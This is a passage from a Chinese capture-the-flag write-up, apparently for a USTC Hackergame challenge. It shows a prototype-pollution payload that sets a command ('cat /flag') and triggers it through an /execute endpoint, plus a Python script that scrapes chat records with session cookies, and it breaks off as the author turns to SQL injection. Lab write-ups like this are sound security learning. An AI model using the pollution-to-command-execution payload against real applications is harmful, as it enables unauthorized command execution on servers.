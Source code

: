 因此这道题可以直接构造
```Javascript
store.__proto__.xxx = 'cat /flag';
```
之后再通过
```
/execute?cmd=xxx
```
就可以拿到 flag 了。

## PaoluGPT

#### 千里挑一
从这道题的小题目可以看出，flag 应该就藏在这么多对话记录的其中一个里。因此直接写一个脚本扫一遍就可以了。
```Python
import requests
import re
import time

url = 'https://chal01-kpqsf2ts.hack-challenge.lug.ustc.edu.cn:8443/list'
cookies = {
    '_ga':'GA1.1.70803825.1729666822',
    '_ga_R7BPZT6779':'GS1.1.1730533581.4.1.1730535251.58.0.654533782',
    'session': '<session>'
}
response = requests.get(url, cookies=cookies)

pat_geturls = re.compile(r'<li><a href="/view\?conversation_id=(.*?)">')

urls = pat_geturls.findall(response.text)

cnt = 0
for cid in urls:
    url = 'https://chal01-kpqsf2ts.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id='+cid
    data = {'conversation_id': cid}
    response = requests.get(url, cookies=cookies)
    if "flag" in response.text:
        print(response.text)
        print(str(cnt), "✅")
        break
    else:
        print(str(cnt), "❌")
    time.sleep(0.5)
    cnt += 1
```
感觉这里的 `time.sleep(0.5)` 可能没什么必要，不过感觉还是写爬虫的好习惯，还是加上了。

#### 窥视未知

这里就得看看源码了。从源码来看，这应该是一道 sql 注入题。我是从 [这个网址](https://xz.aliyun.com/t/8627) 来学着注入的。

先获随便点一个聊天记录，燃火获取表的相关信息：
